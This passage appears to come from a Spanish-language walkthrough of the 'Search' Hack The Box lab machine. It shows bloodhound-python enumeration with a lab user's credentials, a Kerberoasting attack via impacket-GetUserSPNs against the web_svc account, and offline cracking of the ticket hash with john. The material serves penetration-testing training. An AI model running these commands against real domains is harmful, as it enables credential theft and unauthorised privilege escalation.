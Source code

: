 ## BloodHound Enumeration

Realizaremos una enumeración con **BloodHound** a través de **bloodhound-python.**

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -u 'hope.sharp' -p 'IsolationIsKey?' -d search.htb -ns 10.10.11.129
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

A medida de que vayamos encontrando usuarios que disponamos de sus credenciales, iremos marcándolos como "Owned" para posteriormente intentar buscar posibles vectores para escalar nuestros privilegios.

## Kerberoasting Attack (GetUserSPNs)

Dado que tenemos credenciales de un usuario válido del dominio, procederemos a realizar un **Kerberoasting Attack** para intentar obtener un TGS (Ticket Granting Service) para posteriormente crackear de manera offline el hash obtenido.

Verificamos que obtenemos un TGS del usuario "web\_svc".

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.129 search.htb/hope.sharp -request 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/2565_vmware_ERH1VhWHue.png" alt=""><figcaption></figcaption></figure>

Procederemos a crackear el hash del TGS obtenido. Verificamos que hemos logrado crackear el hash y obtener la contraseña en texto plano.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```
